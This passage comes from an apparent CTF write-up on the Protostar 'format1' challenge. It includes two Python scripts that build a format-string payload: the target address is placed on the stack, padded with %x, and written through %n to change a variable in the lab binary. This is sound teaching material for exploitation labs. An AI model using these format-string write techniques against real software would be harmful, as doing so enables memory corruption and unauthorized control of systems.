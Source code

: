 Looking at the leaked addresses we can't find 0x08049638. However we do see some repeating numbers near the end of the dump. If we look at those numbers in ascii we see that it is our '%x ' that we input. This means that we can put our target address onto the stack ourself. Now that we have the address we need to write to it. If we use %n we can write the current number of characters written so far to the address passed to it.

```python
import subprocess
offset = 150
exploit = "\x38\x96\x04\x08" + "%x " * offset
subprocess.call(['/opt/protostar/bin/format1', exploit])
```

![format1_7_2](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format1_7_2.png)

We can see that the stack now contains our value. Now we just need to find how many %x we need for this value to be input into %n. While trying to find the correct offset I noticed that the stack was moving around depending on the length of the input string so I decided to add some A's to the end as padding.

```python
import subprocess
offset = 129
exploit = "\x38\x96\x04\x08" + "%x " * offset + "%n" + "A"*200
subprocess.call(['/opt/protostar/bin/format1', exploit[:450]])
```

![format1_8](https://github.com/kztoth/CTF_Writeup/blob/master/protostar/2%20-%20Format/pics/format1_8_2.PNG)

As you can see we were able to change the value of target by writing it's address to the stack and then writing to it with %n.

## Challenge 2
